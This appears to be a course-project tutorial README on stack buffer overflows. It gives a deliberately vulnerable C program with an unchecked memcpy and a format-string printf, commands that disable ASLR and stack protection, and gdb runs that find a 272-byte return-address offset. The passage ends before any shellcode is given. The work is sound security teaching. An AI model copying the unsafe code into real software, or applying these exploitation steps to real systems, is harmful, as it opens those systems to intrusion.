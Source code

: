 #*Buffer Overflows Two Ways*

##vulnerable.c
```
#include <stdio.h>

int main(int argc, char *argv[]){
	char buf[256];
	memcpy(buf, argv[1], strlen(argv[1]));
	printf(buf);
}
```
Ensure you've disabled ASLR `echo 0 | sudo tee /proc/sys/kernel/randomize_va_space`

Compile vulnerable.c `gcc -fno-stack-protector vulnerable.c -o vulnerable`

###1. Pinpoint Return Address

Since this is a simple program we can use the following manual approach. Fire up gdb `gdb vulnerable`

Lets go ahead and overflow `buf`

`(gdb) r $(python -c 'print "A"*269')`

Output:

```
Starting program: /home/amilkov3/Dropbox/CS6035/Project1/vulnerable $(python -c 'print "A"*269')

Program received signal SIGSEGV, Segmentation fault.
0xb7e2fa41 in __libc_start_main (main=0x804847d <main>, argc=2, 
    argv=0xbffff034, init=0x80484d0 </__libc_csu_init>, 
    fini=0x8048540 <__libc_csu_fini>, rtld_fini=0xb7fed180 <_dl_fini>, 
    stack_end=0xbffff02c) at libc-start.c:274
274	libc-start.c: No such file or directory.
```
Keep adding A's until you fill the return address entirely with them like so:

`(gdb) r $(python -c 'print "A"*272')`

```
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/amilkov3/Dropbox/CS6035/Project1/vulnerable $(python -c 'print "A"*272')

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
```

0x41414141 tells us we've filled the entire return address with the hexadecimal representation of A: 0x41. So essentially now we know we need 272 bytes to fill the return address. Let's get on to writing our shellcode

#Stack Type
From here we can go down 2 roads. If your system has a executable stack we can write our buffer overflow exploit the old school way. If your stack is non-executable skip to to 2b
